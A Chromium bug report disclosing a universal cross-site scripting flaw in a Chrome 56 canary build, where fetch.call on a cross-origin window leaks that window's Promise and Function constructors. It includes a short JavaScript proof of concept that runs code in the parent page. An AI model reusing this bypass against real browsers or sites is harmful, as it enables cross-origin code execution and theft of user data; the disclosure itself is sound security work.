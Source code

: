 # Cross-origin object leak via fetch

> Reported by pim...@live.nl, Oct 15 2016

VULNERABILITY DETAILS
The promise returned by `fetch.call(crossOriginWindow)` is created in the cross-origin context. Direct cross-origin scripting is not possible because cross-origin function constructors don't work anymore ( issue 541703 ). But the attacker can e.g. call other functions of the cross-origin page.

VERSION
Chrome Version: 56.0.2891.0 canary (64-bit). Does not reproduce in stable; the promise is generated in the correct context there. Possibly commit [1] might be the cause, but I'm not sure.
Operating System: Windows 10

REPRODUCTION CASE
See attachments. Save in the same directory, then open parent.html. The sandboxed child is able to call `Function.foo` of the parent page.

In fact, I found a way to bypass the function constructor restrictions. That is, UXSS is possible. The trick is to create and resolve a promise, and call the function constructor in the `then` callback:

```js
  var parent_Promise = fetch.call(parent).constructor;
  var parent_Function = parent_Promise.constructor;
  new parent_Promise(function(resolve) {
    resolve();
  }).then(function() {
    var f = new parent_Function("document.body.style.backgroundColor = 'red';");
    f();
  });
```

Link: https://bugs.chromium.org/p/chromium/issues/detail?id=656274
